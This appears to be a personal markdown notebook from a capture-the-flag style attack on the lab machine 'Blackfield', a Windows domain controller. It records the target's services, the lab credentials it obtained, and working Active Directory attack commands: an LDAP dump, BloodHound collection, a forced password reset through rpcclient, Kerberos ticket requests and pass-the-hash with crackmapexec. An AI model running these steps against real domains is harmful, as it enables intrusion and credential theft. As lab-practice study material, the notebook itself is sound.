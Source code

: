 # Blackfield Notes

## Data 

IP: 10.129.229.17
OS:  DC01 Windows 10.0 Build 17763 x64 
Arch:
Hostname: DC01
DNS: BLACKFIELD.local
Domain: BLACKFIELD.local
Domain SID: S-1-5-21-4194615774-2175524697-3563712290
Machine Purpose: Domain Controller 
Services: 53 dns ,88 kerberos ,135, 593 rpc,389,445,,3268,5985, smb 445 (signing:True) (SMBv1:False), 
Service Languages:
Users: dc01, audit2020,support,svc_backup,lydericlefebvre and lots of generated
Email and Username Formatting:
Credentials:
```
support : #00^BlackKnight
audit2020 : ComplexP4ssw0rd!

```


#### Mindmap-per Service

- OS detect, run generate noting for nmap - check nmap

- 53
	- no domain transfer
	- `for ns in $(cat /usr/share/seclists/Discovery/DNS/$list.txt); do host $ns.$domain.$tld; done`
	- amass - found nothing..

- 88
- 135
	- NullAuth but not very good
	- CHECK support's access
- 389
- 445
	- Guest get read for `IPC$` and `profile$`
	- forensics share - probably audit2020
	- profile seems like a rabbithole of profiles
	- support has NETLOGON and SYSVOL
	- support spider plus
	- got sysvol share - policy 
- 593 `ldapsearch -x -H ldap://10.129.229.17 -D 'support@BLACKFIELD.local' -w '#00^BlackKnight' -b "DC=BLACKFIELD,DC=local" | tee -a support-DUMP-entire-domain.ldapsearch`
- 3268
- 5985
	- 
-
-
```
ldapsearch -x -H ldap://10.129.229.17 -D 'support@BLACKFIELD.local' -w '#00^BlackKnight' -b "DC=BLACKFIELD,DC=local" | tee -a support-DUMP-entire-domain.ldapsearch

python3 bloodhound.py --dns-tcp -c all -d BLACKFIELD.local -dc DC01.BLACKFIELD.local -ns 10.129.229.17 -u support -p '#00^BlackKnight'

```

- support forcepassword audit2020, but it might accomplish much, given that we cant just download lssas 
	- Probably other directories are just clues.. I just really really wanted that lsass.zip
- svc_backup is the only member of remote management
-
- Forensic SMB dump
	- Ipwn3dYourCompany 
-
-
-




#### Todo List

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse
```
rpcclient -U support 10.10.10.192
> setuserinfo2 audit2020 23 'ComplexP4ssw0rd!'
```

- rescan tcp - done
- password spray - done
- profile seems like a rabbithole of profiles -check potentially

```
impacket-getTGT -dc-ip 10.129.229.17 'blackfield.local/audit2020'

smbget # use ccache file to auth in and get lsass.zip
```


- Is Ipwn3dYourCompany still enabled
- Is Ipwn3dYourCompany soft deleted?

- Is there a better way to view the firewall_rules.txt


Fallback on checking hashes if SIDs change
```
crackmapexec smb -u users.txt -H dumpedntmls.ntml 
```


/etc/ntpsec/ntp.conf 

Alternative to `ntpdate` https://ioflood.com/blog/ntpdate-linux-command/
```bash
chronyd
```
https://ioflood.com/blog/ntpdate-linux-command/
```bash
# Synchronize system time using ntpdate
sudo ntpdate pool.ntp.org

# Synchronize hardware time with system time
sudo hwclock --systohc
```